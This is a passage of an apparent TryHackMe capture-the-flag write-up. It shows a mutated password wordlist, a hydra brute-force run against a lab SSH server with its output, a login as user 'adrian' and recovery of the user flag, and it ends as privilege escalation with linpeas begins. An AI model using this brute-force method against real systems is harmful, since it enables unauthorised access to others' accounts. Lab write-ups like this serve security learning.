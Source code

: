 ```
etturute!
ettb
ettub1
ettubrute
ettubrut
ettubru
ettubruettubru
etubru
sute
e!tubrut
ettubru!
dttubrut
te!ettubru
ute!
rute!
brutbrut
cttu
ubeube
mttubrute!
hubrute!
ettuut
ettbettb
ube
etetetet
e!ut
ettubu
erute!
```
I was able to guess the password for the user, ```adrian```. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ hydra -l adrian -P best64brutus.txt [REMOTE IP] ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-05 20:43:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 154 login tries (l:1/p:154), ~10 tries per task
[DATA] attacking ssh://[REMOTE IP]:22/
[22][ssh] host: [REMOTE IP]  login: adrian   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-05 20:44:13
```
With that information, I authenticated to the target using ssh. 
```
adrian@brute:~$ whoami
adrian
adrian@brute:~$ id
uid=1000(adrian) gid=1000(adrian) groups=1000(adrian)
```
And I was able to recover the flag. 
```
adrian@brute:~$ wc -c user.txt 
21 user.txt
```
## Privilege Escalation 
I dropped linpeas on to the target machine by setting up a webserver on my local machine.